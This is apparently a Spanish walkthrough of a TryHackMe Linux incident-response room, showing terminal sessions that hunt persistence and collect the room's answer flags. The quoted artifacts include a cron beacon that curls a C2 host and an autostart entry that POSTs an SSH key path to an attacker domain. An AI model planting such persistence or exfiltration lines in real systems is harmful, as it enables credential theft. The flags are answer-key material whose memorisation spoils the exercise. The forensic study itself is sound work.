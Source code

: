 
# Solución 


Después de actualizar las variables de entorno y, ejecute el comando . ¿Cuál es el indicador que se devuelve en la salida?

PATH: command not found
investigator@tryhackme:~$ export PATH=/mnt/usb/bin:/mnt/usb/sbin
investigator@tryhackme:~$ export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt/usb/lib64
investigator@tryhackme:~$ PATH LD_LIBRARY_PATH check-env
PATH: command not found
investigator@tryhackme:~$ check-env
THM{8c860435f00c943c21f6b6e0f1b2f854}
investigator@tryhackme:~$ 

¿Qué comando enumera todos los archivos abiertos y los procesos que los abrieron?
lsof
Se utiliza para enumerar las jerarquías de procesos. ¿Cuál es el nombre del padre de los procesos?`pstree``nc`
abzkd83o4jakxld

investigator@tryhackme:~$ pstree 
systemd─┬─ModemManager───2*[{ModemManager}]
        ├─NetworkManager───2*[{NetworkManager}]
        ├─accounts-daemon───2*[{accounts-daemon}]
        ├─acpid
        ├─2*[agetty]
        ├─amazon-ssm-agen───8*[{amazon-ssm-agen}]
        ├─at-spi-bus-laun─┬─dbus-daemon
        │                 └─3*[{at-spi-bus-laun}]
        ├─at-spi2-registr───2*[{at-spi2-registr}]
        ├─atd
        ├─avahi-daemon───avahi-daemon
        ├─b4ckd00rftw.sh───sleep
        ├─b64.sh───sleep
        ├─cron───cron───sh───abzkd83o4jakxld─┬─cat
        │                                    ├─nc
        │                                    └─sh
        ├─cups-browsed───2*[{cups-browsed}]
        ├─cupsd
        ├─dbus-daemon
        ├─irqbalance───{irqbalance}
        ├─2*[kerneloops]
        ├─lightdm─┬─Xorg───{Xorg}
        │         ├─lightdm─┬─lightdm-greeter───slick-greeter───3*[{slick-gre+
        │         │         └─2*[{lightdm}]
  GNU nano 4.8             /tmp/crontab.iyxhzm/crontab              Modified  
/etc/cron.hourly/beacon# Edit this file to introduce tasks to be run by cron.

 Each task to run has to be defined through a single line
  GNU nano 4.8               /etc/cron.hourly/beacon                Modified  
http://c2.intelligent-software.thm:8310/beacon#!/bin/bash

curl http://c2.intelligent-software.thm:8310/beacon



investigator@tryhackme:~$ 
investigator@tryhackme:/home$ ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd elijah
investigator@tryhackme:/home/elijah$ ls
investigator@tryhackme:/home/elijah$ ls -la
total 36
drwxr-xr-x  3 elijah elijah 4096 Mar 13  2024 .
drwxr-xr-x 11 root   root   4096 Mar 13  2024 ..
-rw-------  1 elijah elijah  181 Mar 13  2024 .bash_history
-rw-r--r--  1 elijah elijah  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 elijah elijah 3771 Mar 12  2024 .bashrc
-rwxrwxr-x  1 elijah elijah   58 Mar 12  2024 .flag.sh
drwxrwxr-x  3 elijah elijah 4096 Mar 12  2024 .local
-rw-r--r--  1 elijah elijah  807 Mar 12  2024 .profile
-rw-rw-r--  1 elijah elijah   66 Mar 13  2024 .selected_editor
investigator@tryhackme:/home/elijah$ cat .flag.sh
#!/bin/bash

echo "THM{4682786cf2d92f01c4d30a2bbf4621f7}"
investigator@tryhackme:/home/elijah$ 


Utilice **pspy64** para supervisar las ejecuciones que se producen a través del sistema. ¿Cuál es el valor de la marca descodificada que se repite cada 15 segundos?

'VEhNezg1MWE5ODE0NDVkYmZiOTQ4NWMzNzcxNTEwYTUzNTY4fQ=='

THM{851a981445dbfb9485c3771510a53568}


investigator@tryhackme:~$ sudo journalctl | grep b4ckd00rftw

THM{053c12e620acea8a77b4bdcba578ca19}

bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd janice
investigator@tryhackme:/home/janice$ ls
abzkd83o4jakxld.sh
investigator@tryhackme:/home/janice$ ls -la
total 48
drwxr-xr-x  5 janice janice 4096 Mar 13  2024 .
drwxr-xr-x 11 root   root   4096 Mar 13  2024 ..
-rw-------  1 janice janice  536 Mar 13  2024 .bash_history
-rw-r--r--  1 janice janice  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 janice janice 3771 Mar 12  2024 .bashrc
drwxrwxr-x  3 janice janice 4096 Mar 13  2024 .config
drwxrwxr-x  3 janice janice 4096 Mar 12  2024 .local
-rw-r--r--  1 janice janice  807 Mar 12  2024 .profile
-rw-rw-r--  1 janice janice   66 Mar 12  2024 .selected_editor
drwx------  2 janice janice 4096 Mar 13  2024 .ssh
-rw-------  1 janice janice  892 Mar 13  2024 .viminfo
-rwxrwxr-x  1 janice janice  380 Mar 13  2024 abzkd83o4jakxld.sh
investigator@tryhackme:/home/janice$ cd .config
investigator@tryhackme:/home/janice/.config$ ls
autostart
investigator@tryhackme:/home/janice/.config$ ls -la
total 12
drwxrwxr-x 3 janice janice 4096 Mar 13  2024 .
drwxr-xr-x 5 janice janice 4096 Mar 13  2024 ..
drwxrwxr-x 2 janice janice 4096 Mar 13  2024 autostart
investigator@tryhackme:/home/janice/.config$ cd autostar
-bash: cd: autostar: No such file or directory
investigator@tryhackme:/home/janice/.config$ cd autostart
investigator@tryhackme:/home/janice/.config/autostart$ ls-la
ls-la: command not found
investigator@tryhackme:/home/janice/.config/autostart$ ls -la
total 12
drwxrwxr-x 2 janice janice 4096 Mar 13  2024 .
drwxrwxr-x 3 janice janice 4096 Mar 13  2024 ..
-rw-rw-r-- 1 janice janice  189 Mar 13  2024 keygrabber.desktop
investigator@tryhackme:/home/janice/.config/autostart$ cat keygrabber.desktop
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://aabab.bes
t-it-services.thm/id_rsa"
investigator@tryhackme:/home/janice/.config/autostart$ ^C
investigator@tryhackme:/home/janice/.config/autostart$ cd ..
investigator@tryhackme:/home/janice/.config$ cd ..
investigator@tryhackme:/home/janice$ cd.

Command 'cd.' not found, did you mean:

  command 'cdp' from deb irpas (0.10-7)
  command 'cdw' from deb cdw (0.8.1-1build4)
  command 'cdi' from deb cdo (1.9.9~rc1-1)
  command 'cd5' from deb cd5 (0.1-4)
  command 'cdo' from deb cdo (1.9.9~rc1-1)
  command 'cde' from deb cde (0.1+git9-g551e54d-1.1build1)
  command 'cdb' from deb tinycdb (0.78build1)

Try: sudo apt install <deb name>

investigator@tryhackme:/home/janice$ cd ..
investigator@tryhackme:/home$ ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
investigator@tryhackme:/home$ cd frankiln 
-bash: cd: frankiln: No such file or directory
investigator@tryhackme:/home$ cd franklin 
investigator@tryhackme:/home/franklin$ ls -la
total 36
drwxr-xr-x  4 franklin franklin 4096 Mar 13  2024 .
drwxr-xr-x 11 root     root     4096 Mar 13  2024 ..
-rw-------  1 franklin franklin  470 Mar 13  2024 .bash_history
-rw-r--r--  1 franklin franklin  220 Mar 12  2024 .bash_logout
-rw-r--r--  1 franklin franklin 3771 Mar 12  2024 .bashrc
drwxrwxr-x  3 franklin franklin 4096 Mar 13  2024 .config
drwxrwxr-x  3 franklin franklin 4096 Mar 13  2024 .local
-rw-r--r--  1 franklin franklin  807 Mar 12  2024 .profile
-rw-rw-r--  1 franklin franklin   43 Mar 13  2024 .tmux_history
investigator@tryhackme:/home/franklin$ cd .config
investigator@tryhackme:/home/franklin/.config$ ls -la
total 12
drwxrwxr-x 3 franklin franklin 4096 Mar 13  2024 .
drwxr-xr-x 4 franklin franklin 4096 Mar 13  2024 ..
drwxrwxr-x 2 franklin franklin 4096 Mar 13  2024 autostart
investigator@tryhackme:/home/franklin/.config$ cd autostart
investigator@tryhackme:/home/franklin/.config/autostart$ ls -la
total 12
drwxrwxr-x 2 franklin franklin 4096 Mar 13  2024 .
drwxrwxr-x 3 franklin franklin 4096 Mar 13  2024 ..
-rw-rw-r-- 1 franklin franklin   87 Mar 13  2024 netwk.desktop
investigator@tryhackme:/home/franklin/.config/autostart$ cat netwk.desktop
[Desktop Entry]
Type=Application
Name=Show Network Interfaces on Startup
Exec=ifconfig
investigator@tryhackme:/home/franklin/.config/autostart$ 


root@tryhackme:/home/eduardo/.mozilla/firefox/niijyovp.default-release# 
root@tryhackme:/home/eduardo/.mozilla/firefox/niijyovp.default-release# cd ..
root@tryhackme:/home/eduardo/.mozilla/firefox# cd ..
root@tryhackme:/home/eduardo/.mozilla# cd ..
root@tryhackme:/home/eduardo# cd ..
root@tryhackme:/home# ls
b4ckd00rftw  bob      elijah    investigator  ubuntu
bill         eduardo  franklin  janice
root@tryhackme:/home# cd investigator 
root@tryhackme:/home/investigator# python3 dumpzilla.py /home/eduardo/.mozilla
/firefox/niijyovp.default-release/ --Bookmarks | grep THM
URL: https://tryhackme.com/?flag=THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
Title: THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}
URL: https://tryhackme.com/?flag=https://tryhackme.com?flag=THM{5d5cb0ffe8369a
b08f1e90aa9e9bc24e}
root@tryhackme:/home/investigator#  THM{5d5cb0ffe8369ab08f1e90aa9e9bc24e}^C
root@tryhackme:/home/investigator# 

# Notas 

